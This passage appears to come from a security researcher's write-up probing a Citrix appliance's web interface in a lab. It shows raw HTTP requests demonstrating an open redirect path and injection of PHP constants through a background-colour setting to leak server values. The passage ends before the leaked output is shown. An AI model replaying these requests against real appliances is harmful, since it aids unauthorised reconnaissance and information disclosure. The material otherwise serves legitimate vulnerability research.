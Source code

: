 Request:
```http
GET /pcidss/pcidss/redirect/testpath HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
Content-Type: application/json
DNT: 1
Connection: close
Content-Length: 0
```

Response:
```http
HTTP/1.1 302 Found
Date: Sat, 01 Feb 2020 09:25:30 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Location: /testpath
X-XSS-Protection: 1; mode=block
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```

Couldn't find anything useful to do here, but still thought it was cool.

### PHP Constants
Okay, another quirky PHP one then. If you have a working session, you can set a background colour. However, instead of colours you can also give it PHP constants, like so (note the `PHP_DATADIR`):

```http
POST /menu/agc HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 1384537322.1580549312074652
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=9ed492e6ff1876d44ddcaec143d2f949
Content-Length: 80

props=bg_color=PHP_DATADIR&2200391681580549312074810=1384537322.1580549312074652
```
The constant value will then be available in `/menu/repcontent?name=henk2&ds=default&new=yes&parent=Custom%20Reports`:
